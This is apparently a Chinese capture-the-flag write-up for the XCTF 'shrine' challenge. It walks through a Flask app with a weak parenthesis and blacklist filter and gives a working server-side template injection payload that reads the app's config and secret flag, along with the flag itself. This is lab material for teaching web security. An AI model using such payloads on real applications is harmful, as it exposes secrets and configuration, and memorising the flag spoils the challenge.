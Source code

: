 # shrine

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=100497b9-0ff5-4427-8159-060062da0c4c_2)

场景打开只看见了一段flask源代码，而flask的考点也很明确了——模版注入。先把这串源代码美化一下，使用这个[网站](https://codebeautify.org/python-formatter-beautifier)。

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

- ### os.environ
- > 一个表示字符串环境的 映射 对象。（比如字典） 例如，environ\['HOME'] 是你的主目录（在某些平台上）的路径名

pop()大概就是返回当前路径下FLAG文件的值。app.config\['FLAG']的值就等于FLAG。app.config是当前的项目配置。

所以我们要想办法看到app.config\[FLAG]里面的值。往下看可以发现有个shrine目录。@app.route()是一个装饰器，这里先将其简单理解成设置路径。按照这里的设置，应该还有个/shrine/xxx路径才对。

- http://61.147.171.105:60143/shrine/ds

发现shrine后面跟着的ds被回显了，试一下有没有模版注入。

- http://61.147.171.105:60143/shrine/{{2*2}}

回显显示4，敲定模版注入。现在就是利用了。但是从 return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 可以发现不能直接传入config。

- ### Flask
- > {{}}表示变量，{{% %}}是jinja引擎特有语法（flask使用的是jinja引擎）。上面的代码意为“遍历blacklist中的词语，如果输入等于黑名单中的词语就将其设定为None。

通过replace还发现圆括号也被过滤了。但是blacklist并没有过滤完全，只是规定了输入不能等于config，没说不能包含config。我从[这里](https://10-0-0-55.github.io/web/flask/ssti/)找到了一个完全可行的payload。

- http://61.147.171.105:60143/shrine/{{url_for.__globals__['current_app'].config["FLAG"]}}
  
直接打印出config中FLAG的内容。

- ### Flag
- > flag{shrine_is_good_ssti}
